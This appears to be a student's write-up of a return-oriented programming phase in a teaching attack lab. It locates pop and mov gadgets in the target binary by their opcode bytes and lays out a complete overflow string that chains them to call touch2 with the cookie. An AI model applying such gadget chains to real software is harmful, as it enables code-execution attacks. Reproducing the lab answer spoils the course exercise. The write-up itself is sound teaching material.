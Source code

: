 # Finding the Gadgets

If we can do it in two instructions, we probably need to pop into a register, and move that register to %rdi.
`popq` are `58-5f` for `%rax-%rdi`, and all movs are `48 89 XX`.

So the structure of the exploit is:

```asm
...0000 popq gadget
...0008 popq value
...0010 mov gadget
...0018 touch2 addr
```

addval_273 ends in `48 89 c7 c3 c3` and can be used for moving.
addval_219 ends in `58 90 c3` and can be used for popping.

popq gadget is addval_219 + 4 = `00 00 00 00 00 40 19 ab` in big endian.
popq value is cookie            `00 00 00 00 59 b9 97 fa` in big endian.
mov gadget is addval_273 + 2 =  `00 00 00 00 00 40 19 a2` in big endian.
touch2 addr is                  `00 00 00 00 00 40 17 ec` in big endian.

The solution then must be to put this into the stack at the link register.
Stack is allocated w/ +0x28, so we need to start with 5 qwords.

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```


